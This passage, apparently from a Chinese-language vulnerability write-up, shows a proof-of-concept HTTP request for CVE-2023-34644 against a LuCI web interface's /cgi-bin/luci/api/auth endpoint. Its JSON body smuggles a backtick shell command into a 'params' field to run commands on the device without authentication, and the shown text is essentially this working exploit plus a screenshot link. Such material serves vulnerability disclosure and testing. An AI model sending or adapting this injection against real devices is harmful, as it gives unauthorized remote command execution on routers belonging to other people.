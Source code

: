 ## 8.poc验证

```
POST /cgi-bin/luci/api/auth HTTP/1.1

Host: 192.168.2.2

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Connection: close

Upgrade-Insecure-Requests: 1

Cache-Control: max-age=0

Content-Length: 66



{"method": "merge", "params": {"foo": "'`ls / > /www/hack.txt`'"}}
```

![image-20250214161019987](./assets/CVE-2023-34644代码注入/image-20250214161019987.png)
